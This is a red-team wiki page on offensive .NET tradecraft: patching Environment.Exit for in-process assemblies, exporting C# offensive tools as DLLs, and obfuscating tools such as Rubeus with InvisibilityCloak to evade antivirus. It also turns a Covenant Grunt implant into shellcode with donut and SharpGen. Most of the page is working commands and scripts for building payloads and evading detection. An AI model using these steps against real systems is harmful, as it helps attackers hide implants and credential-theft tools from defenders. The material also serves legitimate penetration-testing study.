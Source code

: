 # .NET Assembly




## Patch Environment.Exit

- [https://www.mdsec.co.uk/2020/08/massaging-your-clr-preventing-environment-exit-in-in-process-net-assemblies/](https://www.mdsec.co.uk/2020/08/massaging-your-clr-preventing-environment-exit-in-in-process-net-assemblies/)
- [https://www.outflank.nl/blog/2024/02/01/unmanaged-dotnet-patching/](https://www.outflank.nl/blog/2024/02/01/unmanaged-dotnet-patching/)
- [https://github.com/kyleavery/inject-assembly/blob/8db977c0fd1da039df920f9dd4840d4a3ec2aa2c/src/scmain.c](https://github.com/kyleavery/inject-assembly/blob/8db977c0fd1da039df920f9dd4840d4a3ec2aa2c/src/scmain.c#L462-L613)




## C\# to Unmanaged DLL

* [https://blog.xpnsec.com/rundll32-your-dotnet/](https://blog.xpnsec.com/rundll32-your-dotnet/)

Creating assembly with DLL exports from C# code:

1. Select your favorite C# offensive tool.
2. Install [DllExport](https://www.nuget.org/packages/DllExport/) package via "Manage NuGet Packages for Solution" in VS.
3. Configure DllExport like on the screenshot below and click "Apply".
4. Agree to reload the solution.
5. Edit the Main function code to work with no arguments passed so that the signature looks like `static void Main()`.
6. Add `[DllExport]` attribute before the Main function.
7. Check "Allow unsafe code" and "Optimize code" boxes in Build tab of the solution.
8. Build the solution as Release x64 DLL assembly.
9. (Optional) Obfuscate the assembly with something like [Confuser](https://github.com/XenocodeRCE/neo-ConfuserEx).

![DllExport Configuration](/.gitbook/assets/010.png)

The resulting DLL will be placed in `.\bin\x64\Release\x64\` directory.

{% hint style="warning" %}
Author's note: *I’m not sure why it requires so much finessing, but I’m open to any optimizations or explanations if anyone knows. Specifically, only the DLL in the `\x64\` directory will work, for some reason the one that’s under `\Release\` does not contain the entrypoint that should be generated by `[DllExport]`, even though it’s built at the same time as the one in `\x64\`.*
{% endhint %}




## .NET Obfuscators

- [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)
- [https://github.com/Flangvik/ObfuscatedSharpCollection](https://github.com/Flangvik/ObfuscatedSharpCollection)
- [https://www.r-tec.net/r-tec-blog-net-assembly-obfuscation-for-memory-scanner-evasion.html](https://www.r-tec.net/r-tec-blog-net-assembly-obfuscation-for-memory-scanner-evasion.html)

Hide command line by overwriting `args` to read values from a text file:

```csharp
string line = File.ReadLines("cmd.txt").FirstOrDefault();
args = line.Split(' ');
```



### Tools

- [https://github.com/yck1509/ConfuserEx](https://github.com/yck1509/ConfuserEx)
- [https://github.com/XenocodeRCE/neo-ConfuserEx](https://github.com/XenocodeRCE/neo-ConfuserEx)
- [https://github.com/dr4k0nia/XorStringsNET](https://github.com/dr4k0nia/XorStringsNET)
- [https://github.com/0xb11a1/yetAnotherObfuscator](https://github.com/0xb11a1/yetAnotherObfuscator)


#### InvisibilityCloak

- [https://github.com/h4wkst3r/InvisibilityCloak](https://github.com/h4wkst3r/InvisibilityCloak)

```
PS > wget https://github.com/h4wkst3r/InvisibilityCloak/raw/main/InvisibilityCloak.py -o InvisibilityCloak.py
PS > git clone https://github.com/GhostPack/Rubeus
PS > python .\InvisibilityCloak.py -d .\Rubeus\ -n (-join ((65..90) + (97..122) | Get-Random -Count 16 | % {[char]$_})) -m reverse
PS > cd Rubeus
PS > devenv /build Release .\ChOVuwPZcNQmXtKF.sln
```

{% code title="InvisibilityCloak.ps1" %}
```powershell
$repo = "GhostPack/Rubeus"

$cloak = "C:\Users\user\Desktop\Tools\InvisibilityCloak.py"
$devenv = "C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\devenv.com"

$target = $repo.Split('/')[1]
$obf = -join ((65..90) + (97..122) | Get-Random -Count 16 | % {[char]$_})
git clone "https://github.com/$repo" "C:\Windows\Temp\$target"
python $cloak -d "C:\Windows\Temp\$target" -n $obf -m reverse
& $devenv /build Release "C:\Windows\Temp\$target\$obf.sln"
mv "C:\Windows\Temp\$target\$obf\bin\Release\$obf.exe" "\\vmware-host\Shared Folders\share-host\$obf.exe"
#Remove-Item -Recurse -Force "C:\Windows\Temp\$target"
```
{% endcode %}




## SharpSploit

- [https://github.com/cobbr/SharpSploit](https://github.com/cobbr/SharpSploit)
- [https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/SharpSploit%20-%20Quick%20Command%20Reference.md](https://github.com/cobbr/SharpSploit/blob/master/SharpSploit/SharpSploit%20-%20Quick%20Command%20Reference.md)



### SharpGen

- [https://github.com/cobbr/SharpGen](https://github.com/cobbr/SharpGen)
- [https://cobbr.io/SharpGen.html](https://cobbr.io/SharpGen.html)


#### Execution.ShellCode

```
$ ~/tools/PEzor/deps/donut/donut -i GruntHTTP.exe -o grunt.bin
$ echo -n 'var shellcode = Convert.FromBase64String("' > shellcode.txt
$ echo -n `base64 -w0 grunt.bin` >> shellcode.txt
$ echo '");' >> shellcode.txt
$ echo 'ShellCode.ShellCodeExecute(shellcode);' >> shellcode.txt
$ ~/.dotnet/dotnet bin/Debug/netcoreapp2.1/SharpGen.dll -f payload.exe -s shellcode.txt -c Shell -d net40
```
